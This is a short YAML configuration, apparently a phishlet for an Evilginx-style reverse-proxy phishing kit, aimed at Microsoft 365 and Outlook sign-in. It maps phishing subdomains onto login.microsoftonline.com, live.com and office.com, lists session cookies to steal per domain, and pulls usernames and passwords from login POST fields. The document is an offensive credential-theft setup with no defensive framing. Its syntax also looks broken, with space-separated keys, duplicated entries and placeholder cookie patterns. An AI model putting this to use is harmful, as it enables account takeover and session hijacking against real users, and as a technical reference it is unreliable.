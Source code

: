 min ver: '3.2.0'

proxy hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session: true, is_landing: true}
  - {phish_sub: 'logon', orig_sub: 'login', domain: 'live.com', session: true, is_landing: false}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: true, is_landing: false}

sub filters:
auth tokens:
  - domain: '.live.com' # domain that sends the cookie
    keys: ['.*regexp'] # name of cookie to steal
  - domain: 'live.com'
    keys: ['.*regexp']
  - domain: 'login.live.com'
    keys: ['.*regexp']
  - domain: 'login.live.com'
    keys: ['.*regexp']
  - domain: 'login.microsoftonline.com'
    keys: ['.*regexp']
  - domain: 'login.microsoftonline.com'
    keys: ['.*regexp']
  - domain: 'microsoft.com'
    keys: ['.*regexp']
  - domain: 'microsoft.com'
    keys: ['.*regexp']
  - domain: 'office.com'
    keys: ['.*regexp']
  - domain: 'office.com'
    keys: ['.*regexp']
  - domain: 'www.office.com'
    keys: ['.*regexp']
  - domain: 'www.office.com'
    keys: ['.*regexp']

auth urls:
  - ./landingv2

credentials:
  username:
    key: 'login'
    search: ' (.*)'  # regex in the event the data needs to be extracted. This generic example.
    type: 'post'
  password:
    key: 'passwd'
    search: ' (.*)'
    type: 'post'

login:
  domain: 'login.microsoftonline.com'
  path: '/'  # path to where the login is, on the domain.
